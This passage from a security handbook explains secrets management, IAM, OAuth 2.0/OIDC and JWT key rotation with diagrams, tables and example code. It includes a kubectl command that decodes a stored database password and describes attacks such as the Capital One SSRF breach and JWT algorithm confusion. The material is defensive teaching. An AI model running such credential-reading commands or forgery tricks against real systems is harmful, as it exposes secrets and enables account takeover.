9. **Scan before you push.** Pre-commit scanners like **gitleaks** and **trufflehog** catch secrets on your laptop. **GitHub secret scanning** detects known token formats in repositories (and notifies partner providers so they can revoke them), and **push protection** blocks a `git push` that contains a recognised secret.

```mermaid
sequenceDiagram
    participant App as Orders App
    participant IAM as Cloud IAM
    participant SM as Secrets Manager
    participant DB as Database
    App->>IAM: Get temporary credentials for my role
    IAM-->>App: Short-lived credentials
    App->>SM: GetSecretValue for prod/orders/db
    SM->>SM: Check access policy and write audit log
    SM-->>App: Username and password over TLS
    Note over App: Keep it in memory only and never log it
    App->>DB: Connect with the fetched password
    DB-->>App: Connected
```

**If a secret leaks, the order matters:**

```mermaid
flowchart TD
    Leak["Secret pushed to GitHub<br/>or pasted in a chat"] --> Rotate["1. Revoke / rotate it NOW<br/>(assume it is already being used)"]
    Rotate --> Deploy["2. Roll out the new secret<br/>to every app that needs it"]
    Deploy --> Audit["3. Check audit logs (CloudTrail,<br/>provider dashboards) for abuse"]
    Audit --> Clean["4. Clean Git history<br/>(git filter-repo or BFG)"]
    Clean --> Prevent["5. Prevent repeats: pre-commit<br/>scanning, push protection, secret manager"]
```

Deleting the commit is **not** a fix: the secret already lives in clones, forks, CI logs and bots' databases. Rotate first, clean up second.

**💻 Example:** An app on AWS reading its database password from Secrets Manager. Notice there is no key anywhere in the code.

```python
import json
import os
import boto3

# No access keys in code! boto3 automatically uses the IAM role attached
# to the EC2 instance / ECS task / Kubernetes pod (see #92).
client = boto3.client("secretsmanager", region_name="us-east-1")

def load_db_credentials() -> dict:
    secret_id = os.environ["DB_SECRET_ID"]        # e.g. "prod/orders/db" (a NAME, not a secret)
    response = client.get_secret_value(SecretId=secret_id)
    return json.loads(response["SecretString"])   # {"username": "...", "password": "..."}

creds = load_db_credentials()   # fetch once at startup, keep only in memory
# db = connect(user=creds["username"], password=creds["password"])
# NEVER do: print(creds) or logger.info(creds)
```

Block secrets before they ever reach Git with a pre-commit hook:

```yaml
# .pre-commit-config.yaml  (then run: pip install pre-commit && pre-commit install)
repos:
  - repo: https://github.com/gitleaks/gitleaks
    rev: v8.18.4
    hooks:
      - id: gitleaks        # scans staged changes on every commit
```

And see for yourself why a Kubernetes Secret is not encrypted:

```bash
# Anyone allowed to read this Secret can see the password in plain text
kubectl get secret db-pass -o jsonpath='{.data.password}' | base64 -d

# Scan an entire repo history for secrets that slipped in earlier
trufflehog git file://. --only-verified
```

**🌍 Real-world usage:** GitHub runs a secret scanning partner program: when a token from AWS, Stripe, Slack and many other providers shows up in a public repo, GitHub alerts the provider, and many of them revoke or quarantine the key automatically. GitHub itself changed its token format (prefixes like `ghp_`) and Stripe uses prefixes like `sk_live_` so scanners can spot them reliably. Stripe also offers *restricted keys* with limited permissions. HashiCorp Vault is widely used in large enterprises for dynamic database and cloud credentials, and many Kubernetes teams use the External Secrets Operator to pull secrets from AWS Secrets Manager or GCP Secret Manager.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Hardcoded in code / committed config | Never — not even "just for testing" | Leaks along with the code, cannot rotate without a redeploy |
| `.env` file / environment variables | Local development, small apps, or values injected by the platform from a secret manager | Can leak via logs and crash dumps, no audit trail or rotation |
| Secret manager (Vault, AWS/GCP/Azure) | Any production system | Extra dependency that must be highly available, small cost and latency |
| Dynamic short-lived secrets | High-value systems: databases, cloud credentials | More moving parts, apps must handle renewal and reconnects |
| Sealed Secrets / SOPS in Git | GitOps teams who want everything in Git | You must protect the decryption key, rotation is still manual |

**⚠️ Common mistakes:**
- Committing `.env`, `config.prod.yaml` or a private key "because the repo is private".
- Logging secrets — printing the whole config at startup, or logging full request headers including `Authorization`.
- Baking secrets into Docker images: even if a later layer deletes the file, it stays inside an earlier image layer.
- Believing that base64 (Kubernetes Secrets) is encryption, or that deleting a commit removes a leak.
- One shared "god key" for every service and environment that has never been rotated.

**🎯 Remember:** Secrets live in a secret manager, are fetched using the app's identity, are short-lived and rotated — and if one leaks, rotate first and clean up later.

**🔗 See also:** [#92 IAM](#92-iam), [#94 JWT & Key Rotation](#94-jwt--key-rotation), [#96 Encryption at Rest](#96-encryption-at-rest)

---

### 92. IAM

> **In one line:** IAM (Identity and Access Management) decides who you are and exactly which things you are allowed to touch.

**🏠 Real-life analogy:** In an office building, reception checks your ID card before letting you in — that is *authentication*. Then you get a badge that opens only the floors your job needs — that is *authorization*. Visitors get a temporary badge that stops working at 6 pm. Even the cleaning robot has its own badge. And the master key that opens every door is locked in a safe and used only in emergencies.

**❓ What problem does it solve?**
Without IAM, everyone shares one admin login, nobody can tell who did what, an intern's script can delete production, and a key stolen from one web server unlocks *all* your data. In the **Capital One 2019 breach**, an attacker abused an SSRF flaw (tricking a server into making requests for them) in a misconfigured web application firewall, pulled the temporary credentials of the IAM role attached to that server from the EC2 metadata service, and that role was allowed to list and read many S3 buckets. Data on over 100 million people was stolen. A role limited to only what the firewall truly needed would have shrunk the damage enormously.

**⚙️ How it works:**

1. **Authentication vs authorization** — two different questions:

| | Authentication (AuthN) | Authorization (AuthZ) |
|---|---|---|
| Question | Who are you? | What are you allowed to do? |
| Order | Happens first | Happens after authentication |
| Based on | Password, passkey, MFA code, certificate, token | Policies, roles, permissions, ownership |
| Office analogy | Showing your ID at reception | Your badge opens only floors 3 and 5 |
| HTTP error | `401 Unauthorized` (confusingly named — it really means *unauthenticated*) | `403 Forbidden` |
| Example | Logging in to GitHub | Being allowed to push to a specific repo |

2. **Building blocks:**
   - **User** — one human (or, in old setups, one app) with long-term credentials.
   - **Group** — a collection of users (e.g., `backend-devs`) so you grant permissions once, not per person.
   - **Role** — a set of permissions that can be *assumed* temporarily by a user, a service or a machine. It has no password; assuming it gives short-lived credentials.
   - **Policy** — a document that lists which *actions* are allowed or denied on which *resources*, sometimes under *conditions* (time, IP address, MFA used, tags).
3. **Principle of least privilege:** give every identity the *minimum* permissions it needs, for the *minimum* time. Start with nothing and add; don't start with admin and remove.
4. **How a decision is made** (AWS-style, most systems are similar): everything is **denied by default**; a matching **Allow** grants access; a matching **explicit Deny always wins** over any Allow.
5. **RBAC vs ABAC** — two ways to write the rules:

| | RBAC (Role-Based Access Control) | ABAC (Attribute-Based Access Control) |
|---|---|---|
| Idea | Permissions attach to roles, users get roles | Rules check attributes of the user, resource, action and environment |
| Example rule | "Role support-agent can read tickets" | "Allow read if user.department equals ticket.department AND the device is company-managed" |
| Pros | Simple to understand and audit | Very fine-grained, fewer roles, handles complex rules |
| Cons | "Role explosion" when you need fine detail | Harder to reason about, debug and audit |
| Seen in | Kubernetes RBAC, GitHub org roles, most admin panels | AWS IAM conditions with tags, OPA and Cedar policies |

6. **Machines get identities too.** Instead of copying long-lived access keys onto servers, use **workload identity**: an IAM role attached to an EC2 instance, IAM Roles for Service Accounts / EKS Pod Identity for Kubernetes pods, GKE Workload Identity, or Azure Managed Identities. The platform hands the app temporary credentials that expire and rotate automatically. CI systems can do the same: GitHub Actions can exchange its OIDC token for short-lived AWS credentials, so no AWS keys are stored in GitHub.
7. **Protect humans:** require **MFA** (multi-factor authentication — something you know plus something you have; phishing-resistant security keys or passkeys are best), and log people in through **SSO** (single sign-on via Okta, Microsoft Entra ID or Google Workspace) rather than separate cloud passwords.
8. **Don't use the root account.** The cloud account's root user can do *everything*, including closing the account. Give it a strong password and hardware MFA, create no access keys for it, and lock it away for rare emergencies.

```mermaid
flowchart LR
    Alice["User: Alice"] --> Devs["Group: backend-devs"]
    Bob["User: Bob"] --> Devs
    Devs --> DevPolicy["Policy: read logs,<br/>deploy to staging"]
    Alice -.->|"assumes for 1 hour, with MFA"| ProdRole["Role: prod-readonly"]
    ProdRole --> ProdPolicy["Policy: read-only<br/>on production"]
    Pod["K8s pod: orders-app"] -->|"assumes automatically"| AppRole["Role: orders-app"]
    AppRole --> AppPolicy["Policy: read one S3 bucket,<br/>read one secret"]
```

How a single request is checked:

```mermaid
flowchart TD
    Req["Request: GetObject on<br/>the reports bucket"] --> AuthN{"Valid identity?<br/>(signature, token, MFA)"}
    AuthN -->|"No"| Reject401["Reject: 401 not authenticated"]
    AuthN -->|"Yes"| Collect["Collect all policies for this<br/>user, role and resource"]
    Collect --> DenyCheck{"Any explicit Deny<br/>matches?"}
    DenyCheck -->|"Yes"| Reject403["Reject: 403 explicit deny"]
    DenyCheck -->|"No"| AllowCheck{"Any Allow<br/>matches?"}
    AllowCheck -->|"Yes"| Granted["Allowed: request proceeds"]
    AllowCheck -->|"No"| Implicit["Reject: 403 denied by default<br/>(implicit deny)"]
```

**💻 Example:** An AWS IAM policy that gives **read-only** access to **one** S3 bucket — nothing else.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "ListOnlyThisBucket",
      "Effect": "Allow",
      "Action": "s3:ListBucket",
      "Resource": "arn:aws:s3:::acme-monthly-reports"
    },
    {
      "Sid": "ReadObjectsInThisBucket",
      "Effect": "Allow",
      "Action": "s3:GetObject",
      "Resource": "arn:aws:s3:::acme-monthly-reports/*"
    }
  ]
}
```

What it shows: listing applies to the *bucket* (`acme-monthly-reports`), while reading applies to the *objects inside it* (`/*`). There is no `s3:PutObject` or `s3:DeleteObject`, and no `"Resource": "*"`, so this identity cannot write, delete, or touch any other bucket — everything not allowed is denied by default.

Inside your own app, authorization must also happen **on the server**. A tiny RBAC check:

```python
ROLE_PERMISSIONS = {
    "viewer": {"report:read"},
    "editor": {"report:read", "report:write"},
    "admin":  {"report:read", "report:write", "user:manage"},
}

def can(user: dict, permission: str) -> bool:
    # True if ANY of the user's roles includes the permission
    return any(permission in ROLE_PERMISSIONS.get(role, set()) for role in user["roles"])

def delete_report(user: dict, report_id: str):
    if not can(user, "report:write"):
        raise PermissionError("403 Forbidden")   # default deny
    ...  # actually delete; hiding the button in the UI is NOT enough
```

**🌍 Real-world usage:** Every cloud has IAM: AWS IAM (with IAM Identity Center for SSO), Google Cloud IAM, Azure RBAC with Microsoft Entra ID. Kubernetes has its own RBAC (Roles, RoleBindings, ServiceAccounts). AWS IAM Access Analyzer can generate least-privilege policies from what an identity actually used in CloudTrail logs. Google's **Zanzibar** paper (2019) describes the relationship-based access system behind sharing in products like Google Drive, and inspired open-source tools such as OpenFGA and SpiceDB. Google's **BeyondCorp** made "verify every user and device on every request" (zero trust) mainstream. Policy-as-code tools include Open Policy Agent (OPA) and AWS Cedar.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| IAM users with long-lived access keys | Legacy or tools that support nothing else | Keys leak and are rarely rotated |
| SSO + roles for humans | All people accessing cloud consoles and CLIs | Needs an identity provider set up first |
| Workload identity for machines | All servers, pods, functions and CI jobs | Slightly more setup than pasting a key |
| Strict least privilege | Production, sensitive data | More "access denied" tickets, policies to maintain |
| RBAC | Most apps and teams | Role explosion for very fine-grained needs |
| ABAC / policy engines | Large orgs, multi-tenant SaaS, complex rules | Harder to debug and audit |

**⚠️ Common mistakes:**
- Using the root account for daily work, or creating access keys for it.
- `"Action": "*", "Resource": "*"` because "it was faster to get working" — the Capital One lesson.
- Long-lived access keys on servers and in CI instead of roles and workload identity.
- No MFA for humans, especially admins; never removing access for people who changed teams or left ("permission creep").
- Doing authorization only in the UI (hiding a button) instead of checking on the server — this is Broken Access Control, number one in the OWASP Top 10 (2021).

**🎯 Remember:** Authentication proves *who*, authorization decides *what*. Default deny, least privilege, roles over keys, MFA for humans, workload identity for machines.

**🔗 See also:** [#91 Secrets Management](#91-secrets-management), [#93 OAuth 2.0 (& OIDC)](#93-oauth-20--oidc), [#94 JWT & Key Rotation](#94-jwt--key-rotation)

---

### 93. OAuth 2.0 (& OIDC)

> **In one line:** OAuth lets you give an app a limited, temporary, cancellable "permission slip" to your data on another website — without ever giving it your password.

**🏠 Real-life analogy:** Some cars come with a **valet key**. It can start the engine and drive a short distance, but it cannot open the trunk or the glovebox. You hand the valet this key instead of your master key. An OAuth **access token** is a valet key: it only does certain things (*scopes*), it stops working after a while (*expiry*), you can cancel it at any time (*revocation*), and the valet never learns how to copy your master key (your *password*).

**❓ What problem does it solve?**
Before OAuth, apps used the "password anti-pattern": to import your contacts, a website would ask for your email password. Then:
- The app had **full access to everything**, forever, not just your contacts.
- You could not cancel one app without changing your password and breaking all the others.
- If that app got hacked, **your real password** leaked.

OAuth fixes this: the user logs in only on the real provider's site, approves a limited set of permissions, and the app receives a token instead of a password.

**⚙️ How it works:**

**The four roles** (example: "Allow App X to read your GitHub repos"):

| Role | Plain meaning | In the example |
|---|---|---|
| Resource owner | The person who owns the data | You |
| Client | The app that wants access | App X |
| Authorization server | Logs the user in, asks for consent, issues tokens | GitHub's login and consent page |
| Resource server | The API that holds the data and accepts tokens | The GitHub API |

```mermaid
flowchart LR
    Owner["Resource Owner<br/>(you)"] -->|"1. 'Yes, App X may<br/>read my repos'"| AS["Authorization Server<br/>(GitHub login and consent)"]
    AS -->|"2. access token<br/>(the valet key)"| Client["Client<br/>(App X)"]
    Client -->|"3. API call with token"| RS["Resource Server<br/>(GitHub API)"]
    RS -->|"4. your repo list"| Client
```

**Authorization Code flow with PKCE** — the recommended flow for almost every app with a user (web apps, single-page apps, mobile apps). PKCE ("pixy", Proof Key for Code Exchange) stops someone who steals the one-time code from using it.

1. The user clicks "Sign in with Google" (or "Connect GitHub") in the app.
2. The app creates a random secret `code_verifier`, hashes it with SHA-256 into a `code_challenge`, and creates a random `state` value. It keeps both in the user's session.
3. The app redirects the browser to the authorization server with its `client_id`, `redirect_uri`, the requested `scope`, the `state` and the `code_challenge`.
4. The user logs in **on the provider's site** (the app never sees the password) and sees a consent screen: "App X wants to read your repositories". The user clicks Allow.
5. The provider redirects the browser back to the app's `redirect_uri` with a short-lived, one-time **authorization code** and the same `state`.
6. The app checks that `state` matches what it saved (this blocks CSRF — a forged login from another site).
7. The app's backend calls the token endpoint directly (server to server) with the code and the original `code_verifier`.
8. The authorization server hashes the verifier and compares it with the challenge from step 3. If they match, it returns an **access token**, often a **refresh token**, and (with OIDC) an **ID token**.
9. The app calls the API with the header `Authorization: Bearer <access_token>`.

```mermaid
sequenceDiagram
    participant U as User
    participant B as Browser
    participant App as App Backend
    participant AS as Authorization Server
    participant API as Resource Server
    U->>B: Click Sign in with Google
    B->>App: GET /login
    App->>App: Create state and code_verifier, hash it into code_challenge
    App-->>B: 302 redirect to Auth Server with client_id, scope, state, code_challenge
    B->>AS: GET /authorize with those parameters
    AS->>U: Login page and consent screen
    U->>AS: Log in and click Allow
    AS-->>B: 302 redirect to App callback with code and state
    B->>App: GET /callback with code and state
    App->>App: Check that state matches the saved value
    App->>AS: POST /token with code, code_verifier and client credentials
    AS->>AS: Hash code_verifier and compare with code_challenge
    AS-->>App: access_token, refresh_token, id_token
    App->>API: GET /resource with Authorization Bearer access_token
    API-->>App: 200 OK with the user's data
```

**Access tokens vs refresh tokens:**

| | Access token | Refresh token |
|---|---|---|
| Purpose | Call the API | Get a new access token when the old one expires |
| Sent to | The resource server, on every request | Only the authorization server's token endpoint |
| Lifetime | Short (minutes to about an hour) | Long (days to months), can be revoked |
| If stolen | Attacker has access until it expires | Very dangerous — store it securely |
| Format | Often a JWT (#94) or a random opaque string | Usually an opaque random string |

Good providers use **refresh token rotation**: every use returns a *new* refresh token and invalidates the old one. If an old one is ever used again, that signals theft, and the whole token family is revoked.

**Scopes** are the "which doors" of the valet key: GitHub has `repo` and `read:user`, Google has `openid email profile` or `https://www.googleapis.com/auth/calendar.readonly`. Ask for the **smallest** set you need; users trust (and approve) small requests more.

**Client credentials flow (machine to machine):** when there is no user — e.g., a billing service calling an invoices API at night — the service authenticates *as itself* with its `client_id` and `client_secret` (or a private key / mTLS certificate) and receives an access token directly. No browser, no consent screen.

**OAuth vs OpenID Connect (OIDC):** OAuth was designed for *authorization* ("what may this app access?"), not *authentication* ("who is this user?"). Using a random access token as proof of login is a classic security bug. **OIDC** is a thin identity layer on top of OAuth 2.0: request the `openid` scope and you also get an **ID token** — a signed JWT saying who the user is (`sub`, `email`, `iss`, `aud` = your client ID, `exp`, `nonce`). OIDC also standardises a `/userinfo` endpoint and a discovery document at `/.well-known/openid-configuration` that lists all endpoints and the public keys (JWKS) used to verify tokens.

| | OAuth 2.0 | OpenID Connect (OIDC) |
|---|---|---|
| Answers | What may this app access? (authorization) | Who is the user? (authentication) |
| Main output | Access token, for APIs | ID token (a JWT about the user) plus access token |
| Token is meant for | The resource server / API | The client app itself |
| Key scope | e.g., `repo`, `calendar.readonly` | `openid` (plus `email`, `profile`) |
| Typical button | "Allow App X to read your GitHub repos" | "Sign in with Google" |

**Deprecated flows:** the **Implicit** grant (tokens returned directly in the URL, where they leak into browser history, logs and Referer headers) and the **Resource Owner Password Credentials** grant (the app collects the user's password — the very thing OAuth was invented to avoid) should not be used. The OAuth 2.0 Security Best Current Practice (RFC 9700) says so, and the OAuth 2.1 draft removes both. Single-page and mobile apps should use Authorization Code + PKCE instead. Devices without a keyboard or browser (smart TVs, CLIs) use the **Device Authorization** grant — `gh auth login` (GitHub CLI) shows you a one-time code to enter in your browser.

**💻 Example:** The two key steps of Authorization Code + PKCE against Google, in Python. (In real projects, use a library like Authlib, Passport.js or Spring Security — this is to show what happens underneath.)

```python
import base64, hashlib, os, secrets
from urllib.parse import urlencode
import requests

AUTH_URL  = "https://accounts.google.com/o/oauth2/v2/auth"
TOKEN_URL = "https://oauth2.googleapis.com/token"
CLIENT_ID = "my-app.apps.googleusercontent.com"
REDIRECT  = "https://myapp.example.com/callback"

# Step 1: PKCE verifier + challenge, and a random 'state' against CSRF
code_verifier = secrets.token_urlsafe(64)
code_challenge = base64.urlsafe_b64encode(
    hashlib.sha256(code_verifier.encode()).digest()).rstrip(b"=").decode()
state = secrets.token_urlsafe(16)          # save verifier + state in the user's session

login_url = AUTH_URL + "?" + urlencode({
    "response_type": "code", "client_id": CLIENT_ID, "redirect_uri": REDIRECT,
    "scope": "openid email", "state": state,
    "code_challenge": code_challenge, "code_challenge_method": "S256",
})                                          # redirect the browser to login_url

# Step 2: in /callback, AFTER checking the returned state equals the saved state
def exchange_code(code: str) -> dict:
    resp = requests.post(TOKEN_URL, data={
        "grant_type": "authorization_code", "code": code,
        "redirect_uri": REDIRECT, "client_id": CLIENT_ID,
        "client_secret": os.environ["GOOGLE_CLIENT_SECRET"],  # server-side apps only
        "code_verifier": code_verifier,
    }, timeout=10)
    resp.raise_for_status()
    return resp.json()     # access_token, expires_in, id_token, maybe refresh_token
```

Client credentials for machine-to-machine calls:

```bash
curl -X POST https://auth.example.com/oauth/token \
  -u "billing-service:$CLIENT_SECRET" \
  -d grant_type=client_credentials \
  -d scope="invoices:read"
# Response: {"access_token":"eyJ...","token_type":"Bearer","expires_in":3600}
```

**🌍 Real-world usage:** "Sign in with Google / Apple / Microsoft / GitHub" buttons are OIDC. GitHub OAuth Apps and GitHub Apps use OAuth to act on your repos; Slack apps request scopes like `chat:write`; Stripe Connect uses OAuth so platforms can act on connected Stripe accounts. Managed identity providers: **Auth0** (part of Okta), **Okta**, **Amazon Cognito**, **Microsoft Entra ID**, **Google Identity Platform / Firebase Auth**. Open source: **Keycloak** and **Ory Hydra**.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Managed IdP (Auth0, Okta, Cognito, Entra ID) | Most teams: you want SSO, MFA and social login quickly | Per-user cost can grow, vendor lock-in |
| Self-hosted open source (Keycloak) | Full control, on-premises, data residency rules | You must run, patch and scale a critical security system |
| Write your own authorization server | Almost never | Extremely easy to get subtly wrong |
| Authorization Code + PKCE | Any app where a user logs in (web, SPA, mobile) | More redirects and moving parts |
| Client credentials | Service-to-service, cron jobs, no user involved | The client secret is a long-lived secret to protect and rotate (#91) |

**⚠️ Common mistakes:**
- Skipping `state` or PKCE, leaving the flow open to CSRF and stolen authorization codes.
- Putting tokens in URLs (query strings end up in logs, browser history and Referer headers) or using the Implicit grant.
- Asking for over-broad scopes ("full access to all repos" when you only need to read a profile).
- Loose `redirect_uri` matching on the server (wildcards, open redirects), letting attackers receive codes.
- Using an access token as proof of login instead of validating an OIDC ID token, or shipping a `client_secret` inside a mobile app or JavaScript bundle (anyone can extract it).

**🎯 Remember:** OAuth = delegated *authorization* via scoped, expiring tokens instead of passwords; OIDC adds *authentication* with an ID token. Use Authorization Code + PKCE for users and client credentials for machines.

**🔗 See also:** [#92 IAM](#92-iam), [#94 JWT & Key Rotation](#94-jwt--key-rotation), [#95 Encryption in Transit](#95-encryption-in-transit)

---


### 94. JWT & Key Rotation

> **In one line:** A JWT is a small signed note that says "this is user 42, valid until 12:15", which any server can check by itself without calling the login server.

**🏠 Real-life analogy:** Think of a festival wristband with a hologram sticker. Anyone can read what is printed on it ("VIP, Friday"), but only the organiser owns the hologram machine, so guards check the hologram instead of phoning the ticket office for every person. Because anyone can read the band, you would never write your PIN on it. And when the organiser buys a new hologram machine, guards are told: "accept both the old and the new hologram until all of Friday's bands have expired."

**❓ What problem does it solve?**
With classic sessions, the server stores a session ID and looks up the user in a database or Redis on **every** request. In a system with dozens of microservices, each one would have to call the session store or the auth service — a bottleneck and a single point of failure. A **JWT** (JSON Web Token, pronounced "jot") is *self-contained*: it carries the user's identity and permissions plus a signature, so each service can verify it **locally** using a public key. The new problems JWTs bring are: you cannot easily cancel one, and you must manage and rotate the signing keys safely.

**⚙️ How it works:**
1. **Structure:** three parts separated by dots: `header.payload.signature`. Each part is **base64url**-encoded (base64 with URL-safe characters). Encoding is **not** encryption: anyone who has the token can decode and read the header and payload. (Encrypted tokens exist — JWE — but are rarely needed.)
2. **Signature:** the issuer computes `sign(base64url(header) + "." + base64url(payload), key)`. Change even one character of the payload and the signature check fails, so the content cannot be **tampered with** — that is *integrity*, not *secrecy*.
3. **Standard claims** (a "claim" is a field in the payload):

| Claim | Name | Meaning | Example |
|---|---|---|---|
| `iss` | Issuer | Who created and signed the token | `https://auth.example.com/` |
| `sub` | Subject | Who the token is about (user ID) | `user_42` |
| `aud` | Audience | Which API the token is meant for | `orders-api` |
| `exp` | Expiration | Unix time after which it is invalid | `1793103300` |
| `iat` | Issued at | When it was created | `1793102400` |
| `nbf` | Not before | Not valid before this time | `1793102400` |
| `jti` | JWT ID | Unique ID of this token (for deny lists, replay detection) | `7f3c9a2e` |

4. **Signing algorithms:**

| | HS256 | RS256 | ES256 |
|---|---|---|---|
| Type | Symmetric (HMAC + SHA-256) | Asymmetric (RSA + SHA-256) | Asymmetric (ECDSA P-256 + SHA-256) |
| Signs with | Shared secret | Private key (only the auth server) | Private key |
| Verifies with | The *same* shared secret | Public key (safe to publish) | Public key |
| Risk | Every verifier can also *forge* tokens | Only the auth server can mint tokens | Same as RS256 |
| Signature size | 32 bytes, very fast | 256 bytes (2048-bit key) | 64 bytes, fast |
| Use when | One app signs and verifies its own tokens | Many services or third parties verify (most common for OIDC) | Like RS256, with smaller tokens |

5. **Verifying a token, in order:** read the header → pick the key by its `kid` (key ID) → check `alg` is on *your* allow-list → verify the signature → check `exp`, `nbf`, `iat` (allowing a few seconds of clock skew) → check `iss` and `aud` → only then trust `sub` and the scopes.
6. **Short-lived access + refresh tokens:** access tokens live 5–15 minutes; a longer-lived refresh token (kept more safely) gets new ones (see #93).
7. **The revocation problem:** a valid JWT stays valid until `exp`, even after logout or a password change. Options: keep expiry **short**; keep a **deny list** of revoked `jti` values in Redis until they would expire anyway; store a per-user "token version" and reject older ones; or use opaque tokens with an introspection call for high-risk APIs.
8. **Key rotation with `kid` + JWKS:** the auth server publishes its *public* keys at a **JWKS** (JSON Web Key Set) URL, each with a `kid`. Every token's header names the `kid` that signed it. To rotate safely: **publish** the new public key → wait until verifiers' caches have it → **start signing** with the new key → **keep the old public key** until all tokens signed with it have expired, including allowed clock skew → **remove** the old key.
   If a private key is *leaked*, stop trusting that key immediately: update verifiers to reject its `kid`,
   invalidate their cached trust data, rotate the signing key, and require new authentication as appropriate.
   Removing a key from the JWKS endpoint alone does not immediately update every verifier's cache.

```mermaid
flowchart LR
    Header["Header<br/>alg: RS256, typ: JWT, kid: key-2026-10"] --> Enc1["base64url"]
    Payload["Payload (claims)<br/>iss, sub, aud, exp, iat, scope"] --> Enc2["base64url"]
    Enc1 --> Sign["Sign header.payload<br/>with PRIVATE key"]
    Enc2 --> Sign
    Sign --> Token["eyJhbGci... . eyJpc3Mi... . SflKxwRJ...<br/>header . payload . signature"]
    Token --> Verify["Any service verifies<br/>with the PUBLIC key from JWKS"]
```

```mermaid
sequenceDiagram
    participant Auth as Auth Server
    participant JWKS as JWKS Endpoint
    participant API as API Service
    Note over Auth,API: Start - tokens are signed with key-A, JWKS lists key-A
    Auth->>JWKS: Step 1 - publish public key-B next to key-A
    API->>JWKS: Refresh cached keys, for example every hour
    JWKS-->>API: key-A and key-B
    Note over Auth: Wait until every API cache knows key-B
    Auth->>Auth: Step 2 - sign new tokens with key-B, kid key-B
    API->>API: Verify old tokens with key-A and new tokens with key-B
    Note over Auth,API: Wait at least the max token lifetime so key-A tokens expire
    Auth->>JWKS: Step 3 - remove public key-A
    Auth->>Auth: Step 4 - destroy private key-A
```

**💻 Example:** An illustrative token shape, followed by its header and payload.
The signature is shortened, so this is not a usable token.

```text
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6ImtleS0yMDI2LTEwIn0
.eyJpc3MiOiJodHRwczovL2F1dGguZXhhbXBsZS5jb20vIiwic3ViIjoidXNlcl80MiIsImF1ZCI6Im9yZGVycy1hcGkiLCJleHAiOjE3OTMxMDMzMDAsImlhdCI6MTc5MzEwMjQwMCwibmJmIjoxNzkzMTAyNDAwLCJqdGkiOiI3ZjNjOWEyZSIsInNjb3BlIjoib3JkZXJzOnJlYWQifQ
.SflKxwRJSMeKKF2QT4fwpM...(signature, shortened)
```

```json
{ "alg": "RS256", "typ": "JWT", "kid": "key-2026-10" }
```

The payload is a separate JSON document:

```json
{
  "iss": "https://auth.example.com/",
  "sub": "user_42",
  "aud": "orders-api",
  "exp": 1793103300,
  "iat": 1793102400,
  "nbf": 1793102400,
  "jti": "7f3c9a2e",
  "scope": "orders:read"
}
```

`iat` is 27 Oct 2026, 12:00 UTC and `exp` is 15 minutes later. A signed JWT's header and payload
can each be decoded locally from base64url without a signing key. Decoding is **not** signature
verification, and **secrets never go in the payload**. Do not paste real access tokens into public decoder websites.

The JWKS document the auth server publishes during a rotation (two keys at once):

```json
{
  "keys": [
    { "kty": "RSA", "kid": "key-2026-10", "use": "sig", "alg": "RS256", "n": "0vx7agoebGcQ...", "e": "AQAB" },
    { "kty": "RSA", "kid": "key-2026-07", "use": "sig", "alg": "RS256", "n": "xjlCRBqkOZ7q...", "e": "AQAB" }
  ]
}
```

Verifying with PyJWT (`pip install "pyjwt[crypto]"`):

```python
import jwt
from jwt import PyJWKClient

ISSUER = "https://auth.example.com/"
jwks = PyJWKClient(ISSUER + ".well-known/jwks.json")   # downloads + caches public keys

def verify_access_token(token: str) -> dict:
    signing_key = jwks.get_signing_key_from_jwt(token)  # picks the key by 'kid'
    return jwt.decode(
        token,
        signing_key.key,
        algorithms=["RS256"],     # YOUR allow-list - never trust the token's own 'alg'
        audience="orders-api",    # token must be meant for this API
        issuer=ISSUER,            # and minted by our auth server
        leeway=30,                # tolerate 30 seconds of clock skew
        options={"require": ["exp", "iat", "sub"]},
    )

def handle_request(headers: dict):
    token = headers.get("Authorization", "").removeprefix("Bearer ")
    try:
        claims = verify_access_token(token)
    except jwt.InvalidTokenError:  # expired, bad signature, wrong aud/iss, ...
        return 401, "invalid token"
    return 200, f"hello {claims['sub']}"
```

A simple deny list for "log out everywhere now", using Redis:

```python
import time
# On logout: remember this token's jti only until it would have expired anyway
ttl = claims["exp"] - int(time.time())
redis_client.setex(f"revoked:{claims['jti']}", max(ttl, 1), "1")

# In verification, right after jwt.decode(...)
if redis_client.exists(f"revoked:{claims['jti']}"):
    raise jwt.InvalidTokenError("token revoked")
```

For browsers, prefer an **HttpOnly** cookie (JavaScript cannot read it, so an XSS bug cannot steal it) over `localStorage`:

```http
HTTP/1.1 200 OK
Set-Cookie: access_token=eyJhbGciOi...; HttpOnly; Secure; SameSite=Lax; Path=/; Max-Age=900
```

**🌍 Real-world usage:** OIDC ID tokens from Google, Microsoft, Okta and Auth0 are JWTs. Google publishes its signing keys at `https://www.googleapis.com/oauth2/v3/certs` and rotates them regularly, so verifiers must fetch keys by `kid` instead of hardcoding them. Auth0 serves keys at `https://<your-domain>/.well-known/jwks.json`, and Amazon Cognito user pools have a similar JWKS URL. Kubernetes service account tokens are JWTs too. Popular libraries: PyJWT, `jsonwebtoken` and `jose` (Node), `java-jwt`/Nimbus (Java).

**⚖️ Trade-offs:**

| | Self-contained JWT | Opaque token / server-side session |
|---|---|---|
| Verification | Local, no database call — fast and scales across services | Lookup in DB/Redis (or an introspection call) every time |
| Revocation | Hard — valid until `exp` unless you add a deny list | Easy — delete the session row |
| Size | Hundreds of bytes or more, sent on every request | A short random string |
| Privacy | Payload readable by anyone holding the token | Reveals nothing |
| Best for | Microservices, third-party APIs, OIDC ID tokens | Classic web apps, high-risk actions needing instant logout |

**⚠️ Common mistakes:**
- Accepting `alg: none` (unsigned tokens) or letting the token choose its own algorithm — e.g., an attacker switches RS256 to HS256 and "signs" with your *public* key. Always pin the allowed algorithms.
- Not validating `aud`, `iss` and `exp` — a token minted for another app, or one that expired last week, gets accepted.
- Putting secrets or sensitive personal data in the payload ("it's encoded, so it's hidden" — it is not).
- Long expiry (days or weeks) for access tokens, or weak HS256 secrets like `secret123` that can be brute-forced offline.
- Storing tokens in `localStorage`, where any XSS bug can read them — prefer `HttpOnly; Secure; SameSite` cookies (with CSRF protection).

